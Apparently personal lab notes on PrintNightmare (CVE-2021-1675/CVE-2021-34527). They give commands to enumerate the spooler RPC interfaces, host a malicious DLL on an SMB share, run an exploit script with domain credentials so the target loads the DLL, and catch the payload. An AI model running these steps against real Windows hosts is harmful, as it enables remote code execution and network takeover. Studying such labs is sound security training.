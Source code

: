 ## Window Print Spooler Vulnerability
- managing the print jobs, receiving files to be printed, queueing them, and scheduling
- able to Start/Stop/Pause/Resume the Print Spooler Service in Service

```
rpcdump.py @10.10.56.87 | egrep 'MS-RPRN|MS-PAR'
```

#### the CVE-2021-1675 and CVE-2021-34527
- CVE-2021-1675 (need local access)
- Can remotely inject DLL (CVE-2021-34527)

- https://github.com/tryhackme/CVE-2021-1675.git

- Host SMB Share with malicious .dll file inside

```
smbserver.py share "/dir/to/share" -smb2support
```

- Run
```
./exploitCVE.py domain/domainuser:password@ip "/share/malicious.dll"
```

- Listen on .dll payload lhost lport

- Folder on victim to check
```
"C:\\Windows\\System32\\spool\\drivers\\x64\\3"
```
